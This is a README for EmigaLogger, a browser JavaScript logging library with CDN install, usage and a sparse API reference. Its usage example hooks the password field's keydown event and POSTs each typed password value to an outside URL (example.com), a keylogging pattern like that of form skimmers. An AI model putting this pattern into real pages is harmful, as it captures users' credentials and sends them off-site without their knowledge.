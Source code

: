 <p align="center">
  <img src="demo/demo.png" />
</p>
<h1 align="center">EmigaLogger for Browsers</h1>
<div align="center">
EmigaLogger combines several modules to send a valuable client-side information to the database
</div>

## Install
```html
<script type="text/javascript" src="https://cdn.jsdelivr.net/gh/eminmuhammadi/EmigaLogger@master/dist/EmigaLogger.min.js"></script>
```

## Usage
```js
const Logger   = new EmigaLogger();
const Data     = new EmigaData();
const Selector = new EmigaSelector();

const Password = Selector.Select('input[name=password]');
Logger.Log(Password,'keydown',()=>{
    Data.Send('https://example.com',{
        method: 'POST',
        body: JSON.stringify({
           password: Selector.Value(Password)
        }) 
    });
});
```
For examples  [./demo/](demo)
- `button`  [./demo/button.html](demo/button.html)
- `example` [./demo/example.html](demo/example.html)
- `form`    [./demo/form.html](demo/form.html)
- `input`   [./demo/input.html](demo/input.html)

## API Reference
### new EmigaLogger()
#### EmigaLogger().Log(query,state,callback)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| query     |      	|         	|             	|
| state     |      	|         	|             	|
| callback  |      	|         	|             	|
#### EmigaLogger.Call(callback)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| callback  |      	|         	|             	|
### new EmigaSelector()
#### EmigaSelector().Select(query)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| query     |      	|         	|             	|
#### EmigaSelector().Submit(query)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| query     |      	|         	|             	|
#### EmigaSelector().Value(query)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| query     |      	|         	|             	|
#### EmigaSelector().Text(query)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| query     |      	|         	|             	|
### new EmigaData()
#### EmigaData().Serialize(form)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| form      |      	|         	|             	|
#### EmigaData().Send(url,options)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| url       |      	|         	|             	|
| options.method         |      	|    `GET`,`POST`,`PUT`,`HEAD`,`DELETE`,`PATCH`,`OPTIONS` |             	|
| options.mode           |      	|   `no-cors`, `cors`, `same-origin`  |             	|
| options.cache          |      	|  `Value`, `no-cache`, `reload`, `force-cache`, `only-if-cached` |             	|
| options.credentials    |      	| `include`, `same-origin`, `omit`        	|             	|
| options.headers        |      	|         	|             	|
| options.redirect       |      	|  `manual`, `follow`, `error` |             	|
| options.referrerPolicy |      	|  `no-referrer`, `client` |             	|
| options.body           |      	|         	|             	|
### new EmigaToken()
#### EmigaToken().uuid()
### new EmigaCookies()
#### EmigaCookies().Get(name)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	|         	|             	|
#### EmigaCookies().Set(name,value,options)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	|         	|             	|
| value     |      	|         	|             	|
| options.expires   |      	|         	|             	|
| options.path      |      	|   `/` (default)  	|             	|
| options.domain    |      	|         	|             	|
| options.secure    |      	|   `true`, `false`      	|             	|
| options.sameSite  |      	|    `lax`, `strict`     	|             	|
#### EmigaCookie().Delete(name)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	|         	|             	|
#### EmigaCookie().Cookie(name,value,days)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	| `X-UUID` (default)  |             	|
| value     |      	|           |             	|
| days     |      	|  `1`  (default)    |             	|
### new EmigaInit(event)

